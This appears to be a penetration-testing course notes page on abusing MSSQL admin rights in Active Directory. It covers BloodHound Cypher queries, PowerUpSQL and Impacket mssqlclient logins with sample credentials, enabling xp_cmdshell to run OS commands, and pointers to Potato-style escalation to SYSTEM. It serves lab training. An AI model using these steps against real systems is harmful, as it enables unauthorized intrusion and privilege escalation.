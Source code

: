  Enumerate via Bloodhound and the `SQLAdmin` edge. We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

Enumerating MSSQL Instances with [PowerUpSQL](powerupsql.md). The command needs to be ran by an user with `SQLAdmin` rights: 

```powershell
cd C:\Tools\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

 Authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell
Get-SQLQuery -Verbose -Instance "$ipHost,$port" -username "$domain\$userSamAccountName" -password "$password" -query 'Select @@version'

# Example:
# Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```
 
We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the Impacket toolkit.

```bash
mssqlclient.py $domain/$user@$ip -windows-auth
# Example:
# mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

We could then choose `enable_xp_cmdshell` to enable the [xp_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```bash
SQL> enable_xp_cmdshell
```

Finally, we can run commands in the format `xp_cmdshell <command>`.

```bash
xp_cmdshell whoami /priv
```

>Finally, we can run commands in the format `xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM` level privileges, depending on the target host, and use this access to continue toward our goal.
